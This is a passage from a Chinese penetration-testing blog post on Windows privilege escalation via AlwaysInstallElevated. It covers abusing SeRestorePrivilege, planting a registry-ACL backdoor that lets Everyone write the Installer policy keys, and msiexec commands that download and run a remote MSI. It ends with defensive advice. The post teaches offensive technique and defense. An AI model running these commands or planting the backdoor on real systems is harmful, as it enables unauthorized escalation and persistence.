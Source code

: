 如果获得了Backup service用户的权限，输入`whoami /priv`后，发现存在以下权限：

- SeRestorePrivilege
- SeTakeOwnershipPrivilege

此时能够对注册表进行写操作，可以创建对应的注册表项，再利用AlwaysInstallElevated提权

利用SeRestorePrivilege和SeTakeOwnershipPrivilege写注册表可参考之前的文章:[《渗透技巧——Windows九种权限的利用》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8/)

### 扩展思路2：

如果已获得系统权限，可以创建一个提权后门

对以下注册表项添加ACL，允许Everyone进行写操作：

- HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
- HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

对注册表项添加ACL的方法可参考之前的文章：[《渗透技巧——Windows下的Access Control List》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B8%8B%E7%9A%84Access-Control-List/)

### 扩展思路3：

msiexec支持远程下载执行，那么能否利用AlwaysInstallElevated提权？

测试命令如下：

```
msiexec /q /i https://raw.githubusercontent.com/3gstudent/test/master/RunProcessHacker.msi
```

执行失败

下面查找原因，显示安装过程，测试命令如下：

```
msiexec /i https://raw.githubusercontent.com/3gstudent/test/master/RunProcessHacker.msi
```

提示来源不可信，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-2/4-1.png)

得出结论：

msi文件需要可信的证书才能远程利用AlwaysInstallElevated提权

## 0x06 防御建议
---

如果没有特殊需求，禁用AlwaysInstallElevated

监控注册表项：

- HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
- HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

## 0x07 小结
---

本文介绍了利用AlwaysInstallElevated提权的方法，找到了使用Metasploit生成的msi文件利用失败的原因，最后介绍了如何通过MSI Wrapper生成可供利用的msi文件


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





